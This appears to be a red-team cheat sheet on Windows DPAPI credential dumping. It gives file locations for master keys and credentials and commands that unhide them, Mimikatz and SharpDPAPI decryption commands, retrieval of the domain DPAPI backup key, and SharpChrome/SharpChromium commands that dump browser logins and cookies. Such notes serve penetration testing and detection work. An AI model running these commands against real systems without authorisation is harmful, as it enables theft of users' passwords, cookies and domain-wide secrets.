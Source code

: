 ```yaml
---
description: Data Protection API
---
```


# DPAPI

* [https://habr.com/ru/post/434514/](https://habr.com/ru/post/434514/)

{% file src="/.gitbook/assets/ZN17 - Hunting for Credentials Dumping in Windows Environment (Teymur Kheirkhabarov).pdf" %}

Master keys locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\ (%appdata%\Microsoft\Protect\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Protect\ (%localappdata%\Microsoft\Protect\)
```

Credential files locations (hidden files, need `-Force`):

```
PS > ls -fo C:\Users\snovvcrash\AppData\Roaming\Microsoft\Credentials\ (%appdata%\Microsoft\Credentials\)
PS > ls -fo C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\ (%localappdata%\Microsoft\Credentials\)
```

Unhide files:

```
PS > cmd /c "attrib -h -s 00ff00ff-00ff-00ff-00ff-00ff00ff00ff
PS > cmd /c "attrib -h -s 00ff00ff00ff00ff00ff00ff00ff00ff"
```




## Mimikatz

* [https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

Decrypt manually offline with known plaintext password:

```
mimikatz # dpapi::masterkey /in:00ff00ff-00ff-00ff-00ff-00ff00ff00ff /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:Passw0rd!
mimikatz # dpapi::cache
mimikatz # dpapi::cred /in:00ff00ff00ff00ff00ff00ff00ff00ff
```




## SharpDPAPI

* [https://github.com/GhostPack/SharpDPAPI#table-of-contents](https://github.com/GhostPack/SharpDPAPI#table-of-contents)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpDPAPI.ps1)

Triage user's *credentials*, *vaults*, *rdg* and *certificates*:

```
PS > .\SharpDPAPI.exe triage /password:Passw0rd!
```

Triage machine's credentials (*machinecredentials*), vaults (*machinevaults*) and certificates (*certificates /machine*):

```
PS > .\SharpDPAPI.exe machinetriage
```

Retrieve the domain DPAPI backup key (never changes) from a DC and decrypt master key blobs for any user in the domain with it (needs DA privileges):

```
PS > .\SharpDPAPI.exe backupkey /nowrap [/server:DC01.megacorp.local] [/file:key.pvk]
PS > .\SharpDPAPI.exe credentials /pvk:key.pvk [/server:PC01.megacorp.local]
```



### SharpChrome

- [https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands](https://github.com/GhostPack/SharpDPAPI#sharpchrome-commands)

```
PS > .\SharpChrome.exe logins|cookies [/pvk:key.pvk]
```




## SharpChromium

- [https://github.com/djhohnstein/SharpChromium](https://github.com/djhohnstein/SharpChromium)

```
PS > ls "C:\Users\snovvcrash\AppData\Local\Google\Chrome\User Data\Default"
PS > .\SharpChromium.exe logins
PS > .\SharpChromium.exe cookies
```




## Tools

- [https://github.com/login-securite/DonPAPI](https://github.com/login-securite/DonPAPI)
- [https://github.com/zblurx/dploot](https://github.com/zblurx/dploot)
- [https://github.com/leftp/DPAPISnoop](https://github.com/leftp/DPAPISnoop)
